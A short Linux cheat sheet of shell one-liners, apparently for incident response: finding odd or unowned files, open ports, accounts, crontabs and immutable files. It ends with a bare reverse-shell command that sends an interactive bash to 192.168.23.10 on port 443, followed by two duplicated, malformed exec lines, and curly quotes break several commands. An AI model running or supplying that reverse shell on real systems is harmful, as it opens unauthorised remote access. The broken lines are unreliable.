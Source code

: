 ## find names with dots and spaces, there shouldn’t be any
 `find / -name ” ” -print`
 `find / -name “..” -print`
 `find / -name “. ” -print`
 `find / -name ” ” -print`

## Find files that are not owned by anyone
`find / -nouser`

## Look for files that are unlinked
`lsof +L1`

## Get information about procceses with open ports
`lsof -i`

## Look for weird things in arp
`arp -a`

## Look at all accounts including AD
`getent passwd`

## Look at all groups and membership including AD
`getent group`

## List crontabs for all users including AD
`for user in $(getent passwd|cut -f1 -d:); do echo “### Crontabs for $user ####”; crontab -u $user -l; done`

## Generate random passwords
`cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4`

## Find all immutable files, there should not be any
`find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’`

## Fix immutable files
`chattr -i file`

## BASH:
`bash -i >& /dev/tcp/192.168.23.10/443 0>&1`

`exec /bin/bash 0&0 2>&0`

`exec /bin/bash 0&0 2>&0`
